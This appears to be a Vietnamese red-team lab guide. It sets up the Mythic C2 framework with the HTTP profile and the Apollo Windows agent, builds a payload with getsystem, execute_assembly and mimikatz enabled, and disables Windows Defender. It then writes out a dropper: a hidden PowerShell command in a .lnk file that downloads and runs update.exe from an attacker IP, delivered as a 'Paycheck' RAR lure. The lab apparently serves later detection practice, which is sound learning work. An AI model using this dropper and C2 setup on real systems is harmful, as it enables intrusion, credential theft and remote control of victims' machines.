






```c++
# Clone source code của Mythic
git clone https://github.com/its-a-feature/Mythic.git

# Di chuyển vào thư mục Mythic
cd Mythic

# Chạy lệnh Make để hệ thống tự động build file cấu hình
sudo make
```


Khởi động C2


```c++
sudo ./mythic-cli start
```


Do ban đầu đã cài cyberchef rồi nên phải đổi trong .env thành port 8081 cho module hasura


```c++
sudo ./mythic-cli config credentials
```


Tìm mythic_admin và mật khẩu tương ứng


```c++
https://127.0.0.1:7443
```


### Cài đặt agents và C2 profiles {#3487b0eb61a480ef8b5acae3d6e8a756}


[link_preview](https://github.com/its-a-feature/mythic)


C2 profile - kênh liên lạc


```c++
sudo ./mythic-cli install github https://github.com/MythicC2Profiles/http
```


Agent - malware được cài đặt trên máy nạn nhân, trường hợp này ta không xài apfell mà dùng một payload khác phù hợp hơn

- Nếu đối tượng là windows thì nên xài Apollo: được viết bằng C# và chạy trên .NET framework

→ sinh ra để đánh AD


```c++
sudo ./mythic-cli install github https://github.com/MythicAgents/Apollo.git
```


# Quy trình tạo payload {#3487b0eb61a480ff9916cb766e25c639}


Vào giao diện và chọn Create payload




- **`output_type: WinExe`** **tạo ra file exe**
- **`debug`****: Tắt (Công tắc gạt sang trái):** Không cần bật. Bật lên sẽ làm file mã độc nặng hơn và sinh ra các log không cần thiết.
- **`adjust_filename`****: chưa cần, sẽ đổi tên sau**
- **`enable_keying`****: Tắt (Cực kỳ quan trọng):** Đây là tính năng Environmental Keying (Khóa theo môi trường). Nếu bật, mã độc sẽ kiểm tra xem nó có đang chạy đúng trong domain `soclab.local` không thì mới kích hoạt (để chống bị Blue Team mang vào Sandbox phân tích). Không cần thiết

### Chọn commands {#3487b0eb61a480019ebbd135d4fb2735}


Chọn các loại tấn công: vì môi trường lab nên sẽ chọn hết để phân tích sau này.




- **`getsystem`** **/** **`getprivs`**: Dùng cho bước Leo quyền từ User lên thẳng SYSTEM.
- **`execute_assembly`**: Lệnh "ăn tiền" nhất của Apollo. Dùng để chạy trực tiếp các công cụ .NET (như SharpHound vẽ sơ đồ Domain, hay Rubeus lấy vé Kerberos) thẳng trên RAM mà không chạm xuống ổ cứng.
- **`mimikatz`**: Vũ khí tối thượng để bới móc mật khẩu trong bộ nhớ LSASS.

### Cấu hình C2 profiles {#3487b0eb61a480f9abc7f9a80f6f12be}





### Hoàn tất {#3487b0eb61a48016acfec76fc10d7813}





# Tạo dropper {#3497b0eb61a480a28413fe1e12fe9ecb}


Để đơn giản, ta tắt windows defender trên các máy WS01 và DC01





Tạo 1 file lnk với nội dung như sau: 


`powershell.exe -WindowStyle Hidden -Command "$p = $env:TEMP + '\update.exe'; Invoke-WebRequest -Uri 'http://192.168.253.128:443/update.exe' -OutFile $p; Start-Process $p -WindowStyle Hidden"`


Paycheck được nén lại thành file rar tại địa chỉ của hacker: `192.168.253.128:443`




